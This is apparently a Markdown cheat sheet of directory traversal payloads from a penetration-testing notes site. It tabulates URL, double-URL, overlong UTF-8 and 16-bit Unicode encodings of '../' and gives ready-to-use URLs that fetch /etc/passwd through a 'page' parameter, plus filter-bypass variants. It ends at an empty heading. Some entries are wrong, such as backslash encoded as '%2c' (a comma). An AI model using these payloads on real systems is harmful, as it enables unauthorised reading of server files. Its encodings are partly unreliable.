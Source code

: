 |       | URL       | Double URL    | UTF-8 Unicode                     | 16 bits Unicode   |
| :-    | :-        | :-            | :-                                |:-                 |
| `.`   |  `%2e`    | `%252e`       |  `%c0%2e` `%e0%40%ae` `%c0%ae`    |`%u002e`           |
| `/`   |  `%2f`    | `%252f`       |  `%c0%2f` `%e0%80%af` `%c0%af`    |`%u2215`           |
| `\`   |  `%2c`    | `%252c`       |  `%c0%5c` `%c0%80%5c`             |`%u2216`           |

#### Encoded `../`
```text
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
```
#### Encoded `..\`
```text
%2e%2e%2c
%252e%252e%252c
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2216
```

#### Double URL Encoding

```text
http://{{< param "war.rdomain" >}}/index.php?page=%252e%252e%252fetc%252fpasswd
```

#### UTF-8 Encoding

```text
http://{{< param "war.rdomain" >}}/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Bypass Filtering

```text
http://{{< param "war.rdomain" >}}/index.php?page=....//....//etc/passwd
http://{{< param "war.rdomain" >}}/index.php?page=..///////..////..//////etc/passwd
http://{{< param "war.rdomain" >}}/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### Bypass `../` removal

```text
..././
...\.\
```

### Bypass `../` replaced with `;`
